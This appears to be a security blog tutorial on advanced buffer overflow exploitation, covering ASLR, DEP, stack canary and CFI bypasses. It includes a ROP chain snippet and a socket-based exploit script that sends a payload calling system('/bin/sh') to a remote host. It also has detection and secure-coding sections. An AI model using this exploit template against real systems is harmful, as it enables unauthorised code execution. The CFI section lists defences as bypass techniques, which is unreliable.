 
# Advanced Buffer Overflow Techniques

*Published on January 15, 2025 by Husam Gameel (Oppenheim3r)*

Buffer overflow vulnerabilities remain one of the most critical security issues in modern software development. This post explores advanced techniques for exploiting buffer overflows and bypassing contemporary security mechanisms.

## Introduction

Buffer overflows occur when a program writes more data to a buffer than it can hold, potentially overwriting adjacent memory locations. While basic buffer overflow exploitation has been well-documented, modern systems implement various protection mechanisms that require sophisticated bypass techniques.

## Modern Protection Mechanisms

### Address Space Layout Randomization (ASLR)

ASLR randomizes the memory layout of processes, making it difficult for attackers to predict memory addresses. However, several techniques can be used to bypass ASLR:

- **Information Leaks**: Exploiting format string vulnerabilities or other information disclosure bugs
- **Partial Overwrites**: Overwriting only the least significant bytes of addresses
- **Brute Force**: In 32-bit systems, the entropy is limited enough for brute force attacks

### Data Execution Prevention (DEP/NX)

DEP marks memory pages as non-executable, preventing code execution in data segments. Common bypass techniques include:

- **Return-Oriented Programming (ROP)**: Chaining existing code gadgets
- **Jump-Oriented Programming (JOP)**: Using indirect jumps instead of returns
- **Return-to-libc**: Calling existing library functions

## Advanced Exploitation Techniques

### ROP Chain Construction

```python
#!/usr/bin/env python3

import struct

def p64(value):
    return struct.pack('<Q', value)

# Sample ROP chain for x64 Linux
rop_chain = b""
rop_chain += p64(0x400123)  # pop rdi; ret
rop_chain += p64(0x601000)  # address of "/bin/sh"
rop_chain += p64(0x400456)  # system() address
```

### Heap Exploitation

Modern heap exploitation techniques focus on:

- **Use-After-Free (UAF)**: Exploiting dangling pointers
- **Double-Free**: Corrupting heap metadata
- **Heap Spraying**: Filling heap with controlled data

## Mitigation Bypass Strategies

### Stack Canaries

Stack canaries are random values placed on the stack to detect buffer overflows:

```c
// Vulnerable function with stack canary
void vulnerable_function(char *input) {
    char buffer[256];
    // Stack canary is placed here by compiler
    strcpy(buffer, input);  // Vulnerable to overflow
    // Canary check happens here
}
```

Bypass techniques:
- **Canary Leaks**: Using format string bugs to leak canary values
- **Partial Overwrites**: Avoiding canary corruption
- **Brute Force**: In forking servers, canaries remain constant

### Control Flow Integrity (CFI)

CFI ensures that indirect calls and jumps target legitimate destinations:

- **Gadget Discovery**: Finding legitimate call targets
- **Shadow Stack**: Maintaining a separate call stack
- **Hardware Assistance**: Using Intel CET or ARM Pointer Authentication

## Practical Example

Here's a complete exploitation example:

```python
#!/usr/bin/env python3
import socket
import struct

def exploit():
    # Target information
    target_ip = "192.168.1.100"
    target_port = 9999
    
    # ROP gadgets (found using ROPgadget)
    pop_rdi = 0x400743
    pop_rsi_r15 = 0x400741
    system_addr = 0x400560
    bin_sh = 0x400800
    
    # Build payload
    payload = b"A" * 72  # Buffer overflow
    payload += struct.pack('<Q', pop_rdi)
    payload += struct.pack('<Q', bin_sh)
    payload += struct.pack('<Q', system_addr)
    
    # Send exploit
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    exploit()
```

## Detection and Prevention

### Static Analysis

- **Code Review**: Manual inspection of critical functions
- **Automated Tools**: Using tools like Coverity, PVS-Studio
- **Compiler Warnings**: Enabling all relevant warning flags

### Dynamic Analysis

- **Fuzzing**: Using tools like AFL, libFuzzer
- **Runtime Checks**: AddressSanitizer, Valgrind
- **Penetration Testing**: Regular security assessments

### Secure Coding Practices

```c
// Secure string handling
#include <string.h>

void secure_copy(const char *src, char *dst, size_t dst_size) {
    strncpy(dst, src, dst_size - 1);
    dst[dst_size - 1] = '\0';  // Ensure null termination
}

// Using safer alternatives
char buffer[256];
snprintf(buffer, sizeof(buffer), "User input: %s", user_input);
```

## Conclusion

Buffer overflow exploitation continues to evolve alongside defensive mechanisms. Understanding both attack and defense perspectives is crucial for cybersecurity professionals. While modern protections make exploitation more challenging, determined attackers can still find ways to bypass these mechanisms.

Key takeaways:
- Always assume multiple layers of protection
- Stay updated with latest bypass techniques
- Implement defense in depth
- Regular security testing is essential

## References

- [OWASP Buffer Overflow Guide](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf)

